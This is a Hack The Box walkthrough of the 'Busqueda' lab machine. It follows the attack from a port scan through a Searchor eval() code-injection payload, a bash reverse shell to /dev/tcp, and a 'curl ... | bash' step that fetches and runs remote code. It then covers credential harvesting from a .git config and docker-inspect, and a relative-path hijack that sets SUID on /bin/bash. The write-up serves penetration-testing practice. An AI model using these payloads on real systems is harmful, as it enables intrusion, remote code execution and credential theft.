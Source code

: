  ![image](https://user-images.githubusercontent.com/87700008/230741085-ae68684e-fb9c-4a26-a17f-75349dc030eb.png)

https://app.hackthebox.com/machines/537

## Enumeration:

I began by performing a port scan and discovered that ports 22 and 80 were open:
```
sudo rustscan -a 10.10.11.208 -- -sC -sV -vv -oN busqueda_nmap
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan results showed that SSH was running on port 22, and the Apache HTTP server was running on port 80. I also discovered a domain named "searcher.htb" running on port 80 and added it to the **/etc/hosts** file.

Next, I performed vhost and sub-directory enumeration on the domain but found nothing of interest. Upon further browsing, I discovered that the website was a search tool that provided search results from various search engines on the internet.

![image](https://user-images.githubusercontent.com/87700008/230746368-c6b50271-af99-4b23-9e81-10eed4016f30.png)

To test the functionality of the search feature, I used Burp and observed the response changing when I checked for SQL injection in the query parameter

![image](https://user-images.githubusercontent.com/87700008/232015628-820562f5-dd34-4df5-b3d6-2de04aec009d.png)

![image](https://user-images.githubusercontent.com/87700008/232015895-16b1faa9-075f-4ffd-82d0-c1179bde2e8b.png)

I then used SQLMap to further test the search function, but unfortunately, it did not yield any useful results. 😕

![e79d4ab095244c76be0c42e22382f1b8](https://user-images.githubusercontent.com/87700008/232016168-bd516722-122c-49aa-8391-631c841d3932.png)

Upon further investigation of the website, I discovered the Searchor version and source code on Github:

![image](https://user-images.githubusercontent.com/87700008/232016810-09a178cd-a220-4923-abe2-87e27e67fd03.png)

My research led me to discover that Searchor is vulnerable to [Arbitrary code execution](https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303) prior to version 2.4.2.

In the Snyk blog, I found the pull request [page](https://github.com/ArjunSharda/Searchor/pull/130) where the vulnerable parameter was mentioned in the code:

![image](https://user-images.githubusercontent.com/87700008/232018873-ed9340f2-6cbf-4868-9855-1f4c45d62747.png)

It's clear from the comments that eval() is vulnerable to code execution:

![image](https://user-images.githubusercontent.com/87700008/232019522-22ddcb28-83cd-4d16-9ab5-32b3504c82a4.png)

I found some hints about using eval() from the HTB official discussion and came across a [blog](https://realpython.com/python-eval-function/) that provided some security controls.

```
https://forum.hackthebox.com/t/official-busqueda-discussion/277515/160

Building payloads is an artisan’s work, start simple, just close your quote, close the eval and comment everything out, it will end up as ')#, 
if you get a response, it is working, and you can do little changes to try different values, like passing one more value, as this ',1)#, 
if you are still getting a response and not a blank value, then you can freely change this “one” by an exec() call and do everything you want from it 
```
From the blog, I learned that we can use something like the following code to execute our payloads:

![image](https://user-images.githubusercontent.com/87700008/232022263-65166537-0f67-41f3-addb-ee4a64a3b6fd.png)
```
eval(complie("code to execute"), "<String>", "exec") 
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Initial Access:

After multiple attempts and failures, I finally discovered a payload that worked in the URL-encoded format for command execution:

```
'%2beval(compile("import+os\nos.system('id')+",'<String>','exec'))%2b'
```

![image](https://user-images.githubusercontent.com/87700008/232024663-9c834a9b-990e-431e-adda-90f928c4022f.png)

For the reverse shell, I tried multiple payloads, but none of them worked perfectly. Then, I followed another process where I hosted a text file containing a bash reverse shell:

```
bash -i >& /dev/tcp/10.10.X.X/1331 0>&1
```

After the server downloaded this text file, it executed the shell script from the server end using bash.

I used this final payload, which I referenced from another user's [blog](https://blog.csdn.net/qq_58869808/article/details/130050438) :

```
http%3a//127.0.0.1/debug'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl 10.10.14.41/1337.txt | bash ")','a','single'))%2b'
```

And I successfully gained a reverse shell (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/232027067-ca80fa0b-e7a1-4474-9f2e-59c168cbc00b.png)

In the '/var/www/app/.git' folder, I found a config file with Cody's credentials, along with the Gitea domain running on searchor.htb:

![image](https://user-images.githubusercontent.com/87700008/232027831-ca0b94df-ec46-423d-98fd-0ab06b51b520.png)

I added the domain 'gitea.searcher.htb' to the host file and loaded the website, where I found a login page. I was able to log in using Cody's credentials.

![image](https://user-images.githubusercontent.com/87700008/232131761-d01b7b76-b5af-4552-a7c6-584203984425.png)

In Gitea, I only found 'app.py' files in all of the commits, but I didn't find anything helpful.

I tried the SSH credentials with Cody's username but didn't succeed. After further enumeration, I tried the same credential with 'svc' because it's the same user with whom we have the remote shell.

Finally, I logged in via SSH using the 'svc' account, which gave me the user flag.(pwn3d!🙂)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privelege Escalation:

To start enumerating for root access, I first checked the sudo permissions and discovered that I could run the **system-checkup.py** script with root privileges using the following command:
```
/usr/bin/python3 /opt/scripts/system-checkup.py *
```

After executing the command, I received the following output that displayed the docker processes and allowed me to inspect them:

![image](https://user-images.githubusercontent.com/87700008/232138956-c036b82f-519f-41bb-bae9-6bc632468042.png)

I found two running docker processes, namely **gitea** and **mysql_db**.

![image](https://user-images.githubusercontent.com/87700008/232139320-7e50cf9f-4bf7-47e7-b42d-d955df02abfb.png)

I inspected the content of **mysql_db** and obtained root credentials related to Gitea by executing the following command:
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

![image](https://user-images.githubusercontent.com/87700008/232139819-2ea4ab0d-7f37-4b0a-bfaf-27239b904cfa.png)

Since I had already logged in to Gitea using Cody's credentials, I knew that there was an **administrator** user account. So, I logged in to his account with the credentials obtained from Gitea:

![image](https://user-images.githubusercontent.com/87700008/232140412-9bf68ab8-b654-4e69-b5f1-cda86f52c032.png)

Upon logging in, I found the **system-checkup.py** file in his repository:

![image](https://user-images.githubusercontent.com/87700008/232140739-310c7e52-d8ef-4987-a719-64cb2408df33.png)

By checking the script, I observed that if we used the **full-checkup** argument, it would run the script **/full-checkup.sh**.

![image](https://user-images.githubusercontent.com/87700008/232141411-f86158dd-caa1-4f47-a0cf-8ef55bf61b49.png)

I attempted to run the script with the **full-checkup** argument, but it did not work, possibly due to a missing script.

As I discovered in the **system-checkup.py** script, there was no absolute path to run **full-checkup.sh**. Therefore, I created my own malicious script and added the following command to it:
```
#!/bin/bash
chmod +s /bin/bash
```

![image](https://user-images.githubusercontent.com/87700008/232143172-ccc54e75-c7fb-4148-866e-0a28168e7931.png)

Next, I executed the **system-checkup** script again, and it granted me root bash access. With this, I was able to obtain the root flag (pwn3d!🙂).

![image](https://user-images.githubusercontent.com/87700008/232143461-4201f7f2-a19c-4832-85ea-0988b7bfa426.png)

